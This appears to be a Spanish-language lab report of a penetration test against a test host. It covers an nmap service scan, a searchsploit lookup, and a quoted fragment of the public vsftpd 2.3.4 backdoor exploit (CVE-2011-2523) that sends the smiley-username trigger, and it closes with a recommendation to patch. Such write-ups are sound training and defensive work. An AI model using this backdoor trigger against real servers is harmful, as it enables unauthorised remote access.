

#  Informe de Detección de Servicios y Búsqueda de Vulnerabilidades

## 1. Esacaneo de servicios con Nmap
**Comando ejecutado:**

```bash
nmap -sV 192.168.1.11
```
**Resultados del escaneo:**

Se identificaron los siguientes servicios activos en la direccion IP 192.168.1.11:

- **FTP:** vsftpd 2.3.4 (vulnerable)
- **SSH:** OpenSSH 4.7p1
- **HTTP:** Apache 2.2.8
- **MYSQL:** 5.0.51a-3ubuntu5
- **PostgreSQL:** 8.3.0-8.3.7

**Evidencia**

---
## 2. Busqueda de Vulnerabilidades con Searchsploit

**Comando ejecutado:** 
```bash
searchsploit vsftpd 2.3.4
```
| Exploit Tittle| Ruta del Exploit | 
|--------------|--------------|
| vsftpd 2.3.4-Backdoor Command Execution    | unix/remote/49757.py| 

**Evidencias:**

---
## 3. Analisis del Exploit (Backdoor) en python

**Exploit usado:** vsftpd 2.3.4 - Backdoor Command Execution.

**Autor del Exploit:** HerculesRD.

**CVE:** CVE-2011-2523.

**Descripcion:** Explota una puerta trasera en vsftpd 2.3.4 al usar un usuario con :) para activar acceso remoto por telnet.

**Fragmentos del script:**

```bash
user = "USER nergal:)"
password = "PASS pass"

tn = Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)")
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password:")
tn.write(password.encode('ascii') + b"\n")
```
**Evidencia:**

 ---

 ## Conclusion
 El escaneo identifico el servicio FTP vsftpd 2.3.4 que contiene una **puetrta trasera critica** (CVE-2011-2523). Se verifico que existen exploits publicos, uno de los cuales se encuentran implementado en Python y ejecutando exitosamente en el entorno de pruebas.

 **Recomendacion:** Actualizar el servicio FTP inmediatamente o deshabilitarlo si no es esencial.

 **Archivos de evidencia**
 - Deteccion de servicios.png
 - searchsploit.png
 - searchsploit -x.png
 